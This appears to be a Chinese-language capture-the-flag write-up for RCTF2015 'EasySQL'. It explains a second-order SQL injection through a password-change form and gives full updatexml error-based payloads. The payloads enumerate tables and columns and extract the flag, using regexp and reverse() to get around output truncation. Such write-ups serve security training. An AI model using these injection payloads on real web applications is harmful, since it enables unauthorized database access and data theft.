



# [RCTF2015]EasySQL

## 知识点

`sql注入`

`二次注入`

## 解题

首页为注册界面


注册一个新用户，登入进去可以修改密码，应该是二次注入

注册时`fuzz`发现部分字符被过滤




在`Change password`时显示报错，则可以使用报错注入


则可推断出这部分的`sql`语句

`update user set password='xxx' where username="xxxx" and pwd='202cb962ac59075b964b07152d234b70'`

方法一: updatexml注入

获取表

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7e),1)#
```





获取列名

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),0x7e),1)#
```


获取flag内容

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(flag))from(flag)),0x7e),1)#
```


是个假的`flag`,再找找其他表

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')),0x7e),1)#
```


但是要输出数据的时候提示没有存在该列，可以推测该列没有被完全输出

可以用`regexp`正则来匹配

因为`&`在`burpsuite`中会被识别为传参，所以需要`url编码`




```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)),0x7e),1)#
```


右边的`~`都还没出来，还是`regexp`来找`flag`

```sql
admin"^updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')),0x7e),1)#
```


 打印出了前面的`flag`，后面还没显示出来，可以用`reverse`逆序输出`flag`

```sql
admin"^updatexml(1,concat(0x7e,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),0x7e),1)#
```
